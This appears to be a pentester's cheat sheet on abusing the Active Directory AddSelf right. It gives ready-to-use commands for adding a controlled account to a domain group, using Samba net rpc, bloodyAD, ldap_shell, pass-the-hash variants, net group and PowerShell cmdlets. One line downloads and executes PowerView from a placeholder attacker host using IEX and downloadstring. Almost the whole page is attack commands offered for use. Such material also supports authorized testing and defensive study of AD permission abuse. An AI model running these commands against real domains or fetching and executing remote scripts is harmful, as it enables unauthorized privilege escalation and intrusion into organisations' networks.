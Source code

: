 # Abusing AddSelf

If an user have AddSelf over a group can add itself inside the group. This can be done with multiple tools.

### From Linux (enternally recomended):

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S '<dc-ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p '<password>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

### From Windows (internally):

`net group <group> <user> /add /domain`

Additionally can be done with Active directory module (powershell module):

`Add-ADGroupMember -Identity '<group>' -Members '<user>'`

Also is possible with powerview module:

Load module -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`Add-DomainGroupMember -Identity '<group>' -Members '<user>'`

<br>

### Articles:
https://www.hackingarticles.in/addself-active-directory-abuse/





